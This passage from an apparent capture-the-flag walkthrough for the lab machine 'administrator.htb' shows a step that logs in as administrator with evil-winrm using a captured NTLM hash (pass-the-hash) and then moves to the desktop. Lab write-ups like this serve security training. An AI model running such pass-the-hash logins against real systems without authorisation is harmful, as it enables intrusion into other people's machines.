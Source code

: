 ![](images/media/image31.png){width="4.666666666666667in"
height="3.7902515310586176in"}

**8.2** **Login remotely** with **CREDENTIALS from STEP 8.1** (**USER +
PASSWORD**)

**RUN:** **evil-winrm -i administrator.htb -u administrator -H
\"3dc553ce4b9fd20bd016e098d2d2fd2e\"**

**When logged in: Switch to ../desktop**

**RUN:** **cd ../desktop**

![](images/media/image32.png){width="6.2972222222222225in"
height="1.4326388888888888in"}
